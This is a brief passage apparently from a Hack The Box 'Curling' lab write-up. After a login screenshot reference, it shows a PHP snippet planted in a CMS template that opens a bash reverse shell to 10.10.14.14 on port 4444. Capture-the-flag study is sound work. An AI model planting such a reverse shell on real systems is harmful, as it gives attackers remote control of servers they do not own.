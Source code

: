 ![](images/htb-curling-homepage-login-success.png)




Let's create a new file `revshell` on the current template.
```
<?php
  system("bash -c 'exec bash -i &>/dev/tcp/10.10.14.14/4444 <&1'")
?>
```
